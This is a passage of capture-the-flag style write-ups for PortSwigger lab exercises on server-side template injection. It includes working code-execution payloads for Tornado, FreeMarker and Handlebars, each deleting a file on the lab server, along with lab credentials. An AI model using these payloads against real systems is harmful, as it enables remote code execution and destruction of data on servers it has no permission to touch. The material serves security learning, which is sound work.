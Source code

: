 ```
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0adf008304603373c1309f1f00ce001b.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')&csrf=qF7fI6Vp3Bfc028pB23XCuXr5pG3F3i1

```


## Lab: Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

Initially I thought the template injection was in the edit username section however after some attempts I took another look around the site and it seems you are able to edit product descriptions. The product description is where the SSTI issue arises and you can see from the error that the templaye engine is FreeMarker.

After some googling around I found you can execute commands use the `Execute` class.

To remove the file I ran `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}`


## Lab: Server-side template injection in an unknown language with a documented exploit


This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

The first thing I did was test some basic SSTI inputs ({{7*7}}) which produced an error that had references to `handlebars` allowing me to ascertain that the language was JavaScript and the template engine was handlebars.

I then wanted to find a payload which I could get code execution which I found below on PayloadAllTheThings. Change the format of the single quotes, url encoded it and send it in the vulnerable parameter which successfully deleted morale.txt.



```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
```